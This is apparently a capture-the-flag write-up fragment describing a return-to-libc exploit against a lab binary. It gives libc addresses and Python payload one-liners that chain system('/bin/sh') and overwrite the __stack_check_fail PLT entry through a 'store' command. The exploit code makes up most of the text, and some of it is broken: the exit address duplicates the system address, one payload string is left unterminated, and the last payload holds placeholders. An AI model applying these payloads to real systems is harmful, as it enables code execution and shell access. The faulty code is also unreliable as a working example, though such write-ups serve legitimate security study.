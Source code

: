 addr of "/bin/sh" : 0xf7f897ec
addr of system: 0xf7e6aed0
addr of exit: 0xf7e6aed0

Ret2libc code:

```
python -c 'print "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "
```

We need to be able to put this code in a place where it can be executed later on.
Command[20] could allow us to store this ret2libc as the commands are quite short and no check is performed on these adresses

To do so we can first call for a garbage command to prefix our shellcode

```
python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n"'
```

This should allow us to be able to then call "store" command and pass an index without touching to the ret2libc code contained in command[20]

The data we want to store using "store" needs to be put at an index that will be executed.
To do so we can override the address of the plt of a function -> stack_check_fail : 0x804a010

```
python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + <address of command buffer + 7> + "\n" + <index diff between start of data[100] and 0x804a010> '
```
